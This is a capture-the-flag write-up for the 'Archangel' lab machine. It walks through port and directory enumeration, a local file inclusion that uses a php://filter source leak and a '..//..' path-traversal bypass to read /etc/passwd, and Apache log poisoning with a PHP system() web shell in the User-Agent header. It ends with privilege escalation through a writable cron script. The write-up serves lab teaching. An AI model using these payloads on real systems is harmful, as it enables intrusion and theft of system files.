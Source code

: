 # Archangel

## Enumeration

### NMAP

The first step to understanding what we are attacking is to determine what ports the target has open and see what service we can find.  

Command:

```bash
nmap -A -p- -oN nmap/all_port_aggressive $TARGET
```

Results:

```bash
Nmap scan report for 10.10.227.48
Host is up (0.082s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
|_  256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   18.25 ms 10.6.0.1
2   ... 3
4   82.34 ms 10.10.227.48

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 288.32 seconds
```

### Website (Manual)

Not everything about enumeration can be automated, so we should look at the site being hosted by the target and see if we can discover any more information. One thing that stands out almost immediately is the domain mentioned in the `Send us a mail:` prompt at the top of the page. We can add this to `/etc/hosts` to see if there is virtual hosting being done on the target. If there is, then adding this to the `/etc/hosts` file and navigating to `http://mafialive.thm` will bring us to a different site.

![WaveFireSite](../media/pictures/archangel_wavefire_site.png)

When we navigate to `mafialive.thm` we are greeted with a basic HTML page that tells us it is under development and gives us a flag.

![MafialiveMain](../media/pictures/archangel_underdev_main.png)

Now we can begin to enumerate this site for hidden directories.

Command:

```bash
gobuster dir -u http://mafialive.thm -w <wordlist> -t 50 -x php -o mafialive_main
```

Output:

```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://mafialive.thm
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/12/16 20:05:53 Starting gobuster in directory enumeration mode
===============================================================
/test.php             (Status: 200) [Size: 286]
/server-status        (Status: 403) [Size: 278]
                                               
===============================================================
2022/12/16 20:06:52 Finished
===============================================================
```

## Local File Inclusion (LFI)

We have discovered a `test.php` page and nothing else. Taking a look at this page, there is a simple button on it that displays a phrase when we click it. Looking at the URL,  however, discloses a parameter `view` whose value is a filepath.

![MafialiveTest1](../media/pictures/archangel_underdev_test1.png)

Let's see if we can get the source for the `test.php` page by replacing `mrrobot.php` with `test.php`. A basic replace didn't work, so we can try using a PHP filter to convert it to base64 and smuggle it out. By replacing `/var/www/html/development_testing/mrrobot.php` with `php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php` we can get the base64 encoded source code returned to us. 

Source:

```php
<?php
//FLAG: <REDACTED FOR WRITEUP>
function containsStr($str, $substr) {
	return strpos($str, $substr) !== false;
}
if(isset($_GET["view"])){
	if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
		include $_GET['view'];
	}else{
		echo 'Sorry, Thats not allowed';
	}
}
?>
```

The part we are intersted in is the `<?php ... ?>` piece where the hidden PHP code is written. This shows us a few interesting things we can use to our advantage: 1) `/var/www/html/development_testing` must be in the `view` parameter and 2) the path cannot contain `../..`. The simple filter imposed by the code is easy to get around by adding an additional `/` to `../..`, turning it into `..//..`. Next we can perform a path traversal to any location the user running the website has access to by walking up the directory tree starting at `/var/www/html/development_testing` using `..//..`. We can test this to make sure our theory is correct by targeting `?view=/var/www/html/development_testing/..//..//..//..//..//..//../etc/passwd`.

![MafialiveTestLFIConfirm](../media/pictures/archangel_underdev_test2.png)

When we attempt the LFI attack, we successfully get back the `/etc/passwd` file. This confirms our theory. 


## Remote Code Execution (RCE)

Reading file content is good, but executing arbitraty commands is better. How, then, can we achieve our objective? The answer: `Log Poisoning`. Since we can read local files, we can read the server's log file. We also know that this site is written in PHP, meaning we may be able to inject a command into the log and have the server execute it for us. Webserver logs generally log the IP address of the requesting machine, the path, response code, user-agent, and time. Out of these, we have control over the path and user-agent. We are using the path to read files, meaning the user-agent is what we will poison the log with. 

By injecting PHP into the `User-Agent` header, we can add a URL parameter to the site. This URL parameter is where we will add the command we want to run. Let's assume we want to add a new parameter `c` using log poisoning via the `User-Agent`.  To achieve this, we will replace the existing `User-Agent` with the following:

```php
<?php system($_GET['c']); ?>
```

When the server gets a request with the above payload as the `User-Agent`, it will evaluate it and execute the PHP code. After this parameter is injected, we can make a request to the server that looks like:

```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing/../../../../../var/log/apache2/access.log&c=cat /etc/passwd
```

Now when you go back and check the log, the contents of `/etc/passwd` should be in the location of that request's `User-Agent`.

We only have to poison the log in one place, one time, and every time we enter that command, the poisoned location will be updated. 

*Note: To manipulate the header information (where the User-Agent is stored), you will need a tool like BurpSuite or to send the request using Python, PHP, Go, etc.*

## Privilege Escalation (Horizontal)

Once we have uploaded a reverse shell using log poisoning and gotten a foothold on the target machine, we can begin to escalate our privileges. First, we look in the `/home` directory to see what users there are and if we are allowed to access any of the home directories. In this case there is one user `Archangel` and we are allowed to view his home directory and discover a `user.txt` file containing a flag. 

Getting that flag was good, but we don't really have much leverage on this machine as the current user (`www-data`).  Running the find command for SUID binaries and the GETCAP command for capabilities does not turn up anything we can use to abuse the machine.  Looking in the crontab, however, shows us that `Archangel` is running a script every minute.

![crontab](../media/pictures/archangel_crontab.png)

When we take a look at the file referenced, we notice we have write permissions, meaning we can insert a reverse shell or our own script to gain a shell as `Archangel`.  All we have to do is overwrite the existing `/opt/helloworld.sh` file and wait for the cron job to run, then we will become `Archangel`. After we gain the shell we can navigate back to `/home/archangel` and look in `secret` to find `user2.txt` which contain's a flag. 